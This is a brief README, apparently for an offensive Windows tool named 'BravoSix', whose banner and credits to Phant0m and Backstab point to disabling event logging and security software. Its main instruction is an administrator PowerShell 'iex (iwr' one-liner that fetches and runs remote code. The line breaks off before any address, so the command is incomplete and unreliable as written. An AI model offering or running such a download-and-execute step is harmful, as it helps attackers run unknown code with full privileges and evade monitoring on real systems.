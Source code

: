 # BravoSix

___  ____ ____ _  _ ____    ____ _ _  _      ____ ____ _ _  _ ____    ___  ____ ____ _  _
|__] |__/ |__| |  | |  |    [__  |  \/       | __ |  | | |\ | | __    |  \ |__| |__/ |_/
|__] |  \ |  |  \/  |__|    ___] | _/\_ .    |__] |__| | | \| |__]    |__/ |  | |  \ | \_
-... .-. .- ...- ---    ... .. -..- --..--    --. --- .. -. --.    -.. .- .-. -.-

!! Require administrator shell

```powershell
iex (iwr 
```

# Credits
https://github.com/hlldz/Phant0m
https://github.com/Yaxser/Backstab
